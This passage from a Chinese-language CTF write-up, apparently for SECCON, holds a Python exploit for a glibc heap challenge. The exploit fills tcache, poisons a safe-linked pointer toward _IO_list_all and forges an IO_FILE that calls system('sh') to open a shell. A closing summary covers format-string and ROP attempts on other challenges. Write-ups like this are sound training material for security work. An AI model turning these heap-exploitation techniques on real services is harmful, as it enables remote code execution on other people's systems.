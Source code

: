 ```py

for i in range(7):
    idx = add(0x3d0)
    delete(idx)
    
idx1 = add(0x3d0)

delete(idx1)
io_list_all = libc_base + libc.sym["_IO_list_all"] - 0x10
# 不对 fd 还要做和它地址的异或
# 0x563a5e2e5c10 0x563a5df94000
cur_heap_addr = heap_base + 0x351c00
print(hex(heap_idx))
print(hex(cur_heap_addr))
edit(libc_num,p64(cur_heap_addr)[:6]+b"\n")

edit(0,p64(io_list_all^(cur_heap_addr>>12))[:6]+b"\n")
print(hex(cur_heap_addr))

# 0x555d869efc10 0x555d869efc00
idx1 = add(0x3d0)
# io_file
io_file_addr = cur_heap_addr + 0x20
io_file = b"  sh;"
io_file = io_file.ljust(0x20, b"\x00")
io_file += p64(1)+p64(2)
io_file = io_file.ljust(0x68, b"\x00")+p64(libc_base+libc.symbols["system"])
io_file = io_file.ljust(0x88, b"\x00")+p64(io_file_addr + 0xe8)
io_file = io_file.ljust(0xa0, b"\x00")+p64(io_file_addr)
io_file = io_file.ljust(0xd8, b"\x00")+p64(libc_base + 0x202228)+p64(io_file_addr)+p64(0)+p64(io_file_addr+0x100)
edit(idx1, io_file[:0xf7]+b"\n") # TODO 改这里长度
delete(idx1)
idx2 = add(0x3d0)

edit(idx2,p64(cur_heap_addr+0x20)[:6]+b"\n")
# trigger
# gdb.attach(p)
# pause()
p.sendlineafter("> ", "0")
p.interactive()
```
## 总结
- 嗯 我们一开始往 tcache+smallbin 里面扔了27个块，很壮观（误）
- 然后这次比赛其他几道题：
  - Paragraph 是格式化字符串。但是字符串长度限制23字节，此外没有循环所以每次都需要覆盖返回地址回到 main 函数，在3次很 dirty 很 trick 的尝试之后 leak 了 stack 和 libc 并且回到了 main，之后的问题是无法一次任意写两个地址，而且 one_gadget 不可用 partial overwrite 效果不好。以及连打十多个小时的 format string 真的太要命了，建议加入十大酷刑（逃
  - make ROP great again 直接用栈上 libc 地址，把他改为 one_gadet 会涉及到一个 1/4096 概率的爆破，本地可以出 但是远程一直爆破不出来... 比较奇怪。此外也有队友 leak 出来了 libc 但是这样会把 gets 的 lock 覆盖为非零值，下一次回到 main 然后 gets 会卡死，然后也没找到啥绕过的方法
  - TOY 那个题没看，babyQemu dylanyang 学长在赛后出了（学长 tql!），准备学一下入一下 Qemu qaq

![alt_text](/assets/img/uploads/seccon.png)